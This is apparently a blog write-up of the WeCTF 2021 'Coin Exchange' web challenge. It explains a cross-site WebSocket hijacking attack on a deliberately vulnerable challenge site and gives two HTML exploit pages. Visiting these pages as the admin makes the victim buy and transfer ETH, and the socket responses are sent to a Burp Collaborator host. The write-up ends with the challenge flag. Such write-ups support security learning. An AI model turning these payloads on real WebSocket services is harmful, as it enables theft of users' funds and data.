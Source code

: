 ```yaml
---
title: WeCTF 2021 - Coin Exchange
layout: post 
date: '2021-06-21 11:00:00'
description: solving a CSWSH vuln chall
image: 'https://i.imgur.com/amEYCG6.jpg'
tags:
- web
- ctf
- infosec
- writeup
author: k4l1
---
```


Hi everyone! C:

After lot of months I'm posting here again! I played the WeCTF 2021(a only-web CTF) with my team, we got #25/574 place and the challs were awesome. I'm finally studying web vulns and now had a chance to apply that.


## Description

62 solves / 379 pts

>Shou lost a few thousand bucks on cryptocurrency. So, he decided to fake a crypto exchange and steal all the money of the users next week. Try break Shou's evil plan by stealing all his money.

>This challenge requires user interaction. Send your payload to uv.ctf.so Flag is sent when you have $5000 in the account.

>Hint: Search CSRF if you don't know what that is.

>Host 1 (San Francisco): coin.sf.ctf.so:4001
>Host 2 (Los Angeles): coin.la.ctf.so:4001
>Host 3 (New York): coin.ny.ctf.so:4001
>Host 4 (Singapore): coin.sg.ctf.so:4001
>
>Source Code: [here](https://cdn.discordapp.com/attachments/855858525087334421/855858633715351597/coin-exchange.zip)

## Coin Exchange Website

#### Login

![](https://i.imgur.com/hjm5Z54.png)

#### Exchange

![](https://i.imgur.com/vEFD7Jn.png)

#### Ranking

![](https://i.imgur.com/8t3YfA0.png)

#### Transfer

![](https://i.imgur.com/YzK1SR7.png)


## Solution

This site uses Websocket instead http requests and isn't protected to CSRF, so basically we need to send to admin a malicious website with CSWSH (Cross-site websocket hijacking) to transfer eth to our account.

By intercepting with BurpSuite and seeing on `WebSockets history`, we can read the traffic:

![](https://i.imgur.com/GwnLdLz.png)


By Checking the source, we can see how the connection is created:


```js
function start_socket(){
    socket = new WebSocket("ws://" + document.URL.substr(7).split('/')[0], "ethexchange-api");
    socket.onopen = function(e) {
        routine = setInterval(routine_update, 1000)
    };
    socket.onmessage = function(event) {
        .
        .
        .
    }
}
```

On second line we can see that it uses a custom protocol called `ethexchange-api`, this will be important to connect.

By send a page to admin, I'm using `ngrok` with python `SimpleHTTPServer` and receiving the response with `Burp Collaborator`.

Let's try send a exploit to admin that transfer 3 Eth to our account...

```html
<!DOCTYPE html>
<html>
  <body>
    <script>
      var transfer = {"type":"transfer","content":{"amount":"3","to_token":"34450f23a163a464c4b852331ac7fe0f0f531a136f6707c02f4248ebf9f98d7c"}}

      const socket = new WebSocket('ws://coin.ny.ctf.so:4001/', "ethexchange-api");

      socket.onopen = function(e) {
        socket.send(JSON.stringify(transfer));
      }
      socket.onmessage = function(event) {
        fetch("http://81700rdv5a7etyhroodd98fodfj57u.burpcollaborator.net", {method: "POST", mode: 'cors', body: event.data}).then(response => {console.log(response.json())});
      }
    </script>
  </body>
</html>
```

Sending...

![](https://i.imgur.com/h8o4Fkp.png)

Badly, the admin doesn't have Eth, so we need to buy with his money(on Ranking Page show that the admin had `$1000000000000`).

```js
<!DOCTYPE html>
<html>
  <body>
    <script>
      var transfer = {"type":"transfer","content":{"amount":"3","to_token":"34450f23a163a464c4b852331ac7fe0f0f531a136f6707c02f4248ebf9f98d7c"}}
      var buy = {"type":"buy","content":{"amount":"7000"}}

      const socket = new WebSocket('ws://coin.ny.ctf.so:4001/', "ethexchange-api");

      socket.onopen = function(e) {
        socket.send(JSON.stringify(buy));
        socket.send(JSON.stringify(buy));
        socket.send(JSON.stringify(buy));
        socket.send(JSON.stringify(transfer));
      }
      socket.onmessage = function(event) {
        fetch("http://81700rdv5a7etyhroodd98fodfj57u.burpcollaborator.net", {method: "POST", mode: 'cors', body: event.data}).then(response => {console.log(response.json())});
      }
    </script>
  </body>
</html>
```

By sending again to admin, we can see that we transferred 3 eth after buy it 3 times with $7000.
![](https://i.imgur.com/XEa4u0p.png)

By intercepting again after we got more than $5000 on our account:

![](https://i.imgur.com/aYLN8L9.png)

We got the flag: `we{1e1b12c8-ed85-4b2b-879d-7475febe6281@d0g3&sh1b_th3_BEST!}`


## References

* [CSWSH vuln chall](https://kalinathalie.github.io/web-chall-coin-exchange-wectf2021/)